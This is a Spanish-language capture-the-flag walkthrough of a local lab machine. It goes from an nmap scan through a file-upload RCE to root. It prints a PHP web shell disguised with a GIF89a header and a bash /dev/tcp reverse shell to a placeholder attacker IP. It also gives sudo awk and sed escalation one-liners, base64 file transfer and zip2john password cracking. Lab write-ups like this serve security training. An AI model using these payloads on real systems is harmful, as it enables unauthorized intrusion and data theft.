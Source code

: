 - Tags: #RCE #AbusoDeFileUpload #zip2john #sed #awk #escalarPrivilegios #base64Transfer
_______
comenzamos la maquina como siempre aplicando el escaneo tipico de nmap

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allport 
```

este escaneo nos reporta un puerto abierto, el puerto 80 http el cual aloja una pagina web 
_____
![](attachment/5b5a44132e80b1e7b3b2f5495d2c7600.png)
_____
investigando el codigo fuente encontraremos otro dominio al cual si queremos acceder tenemos que realizar virtual hosting para que la ip nos resuelva al dominio.

la url es la siguiente
_____
![](attachment/b252fa7ccf07d1a31d28ba5f77d92260.png)
_____
si ingresamos tendremos lo siguiente.
_____
![](attachment/6ad38690d8f3d3b2115577b3dc9a554f.png)
_____
antes de este panel encontraremos un panel de registro, nos registramos, para posteriormente ingresar con el usuario y clave que hayamos registrado.

si vamos a las opciones e ingresamos en la opción acerca de, veremos lo siguiente.
____
![](attachment/fabf23a64e482730154581eb51ab8d06.png)
_______
podemos buscar en con searchsploit para ver si existen vulnerabilidades.
____
![](attachment/1f865b04a16cfeef05c845f9e5f719e9.png)
_____
tenemos una vulnerabilidad para esa versión, veamos la prueba de concepto.

nos indica que debemos crear una nueva suscripción en  la pagina y en el apartado de cargar logotipo debemos cargar un archivo.php el cual debe tener el siguiente contenido.

```php
<?php
system($_GET['cmd']);
?>
```

ese archivo lo subiremos como el presunto logotipo pero esta petición la capturaremos con BurpSuite puesto que debemos colocar un parámetro mas en esa petición.

debemos agregar `GIF89a` arriba de la imagen, la petición que capturamos en el BurpSuite la transferimos al repeter para poder realizar este ultimo paso.
_______
![](attachment/b55f4c1448cd0faca180f4a588bf9fb9.png)
_______
ahora si enviamos la petición.
____
![](attachment/ff6ac071014d1941f9f1e394c0b537b8.png)
_____
obtenemos un código 200 y vemos que todo se realizo con éxito.

ahora debemos ir al siguiente directorio.

`http://VICTIM_IP/images/uploads/logos/XXXXXX-yourshell.php`

ahí encontraremos nuestro archivo .php.
______
![](attachment/19b83456d472023c4a163a32098221e0.png)
______
es aquí donde podremos ejecutar los comando agregando.

```php
?cmd=<comando>
```

al final de la url.
_____
![](attachment/94f17ca0f9365ef320ca6d0872bcd47d.png)
______
y vemos que tenemos ejecución de comando, por lo que ahora enviaremos una reverse shell a nuestra maquina para así ganar acceso.

```bash
bash -c "bash -i >%26 /dev/tcp/<direccion_ip>/<puerto> 0>%261"
```

esa es la reverse shell utilizada para ganar acceso a la maquina.

una vez dentro de la maquina tenemos que tratar la tty
_____
![](attachment/e78aee4c11aa9b5276af271b006616f9.png)
_______
posteriormente debemos buscar la forma de escalar privilegios.

si aplicamos un sudo -l veremos lo siguiente.
_____
![](attachment/e95040c2589178208379bbfbb476c66a.png)
_____
podemos ejecutar el comando awk como el usuario pylon, busquemos como escalar privilegios por este medio.

podemos ejecutar el siguiente comando para pivotar al usuario pylon.

```shell
sudo -u pylon awk 'BEGIN {system("/bin/bash")}'
```
___
![](attachment/2379c084e240f16f881c8d241f9a0399.png)
_____
ahora que somos el usuario pylon debemos buscar como seguir escalando privilegios.

puesto que si aplicamos el comando `cut -d: -f1 /etc/passwd` veremos existen 3 usuario, por lo que ahora vamos a pivotar al usuario pinguino.

si nos vamos al directorio de pylon veremos lo siguiente.
_____
![](attachment/f2c1aef72e98aeb033a20ebc8c42643a.png)
_____
tenemos un comprimido, y nos solicita contraseña para poder extraerlo.

el problema aquí es que tenemos pocos métodos de transferir el archivo a nuestra maquina. 

buscando en la web encontré que podemos transferir archivos mediante codificación base64, tenia mis duda acerca de este método, pero al final funciono.

acá la referencia de la web: https://infinitelogins.com/2020/04/24/transferring-files-via-base64/

el primer paso es codificar el comprimido, de la siguiente forma.
_____
![](attachment/37b3697c7dcb0e2ed45a8bc735fdc22a.png)
_______
tenemos que agregar la extensión .b64 al final del archivo, ahora aplicamos un cat al archivo para ver su contenido y copiarlo.
____
![](attachment/4a213c44ca01872962e8bbbbbb649112.png)
____
copiamos el contenido y lo metemos en un archivo en nuestra maquina de atacante.
________
![](attachment/bf8592d8e05409dd1a1ce6faef3f4b85.png)
____
ahora decodificamos el archivo.
___
![](attachment/4aaf8fb834645a8da03970f176edad90.png)
______
ahora podemos extraer el hash del comprimido para poder aplicar fuerza bruta con john.

para extraer el hash usaremos zip2john.
_____
![](attachment/7d732eedbd978c66d868893b04ae365b.png)
_____
ahora que lo tenemos, aplicaremos fuerza bruta con john.
_____
![](attachment/fb4644f6200c0d0a560152fa9aa22f1a.png)
____
tenemos la clave ahora podemos descomprimir el archivo.
_____
![](attachment/3e7dd8c9ddadde7fc4deed651663f5c0.png)
_____
nos deja un fichero.txt que nos permitirá pivotar al usuario pinguino mediante su contraseña.
_____
![](attachment/a8885ee7117765418d4876580b43bfad.png)
_____
podemos ejecutar el comando sed sin contraseña como root.

aplicaremos el siguiente comando para escalar a root

``` shell
sudo sed -n '1e exec bash 1>&0' /etc/hosts
```

______
![](attachment/bea8071963a3282b55f0f8fa480a7db8.png)
____
damos por culminada la maquina.


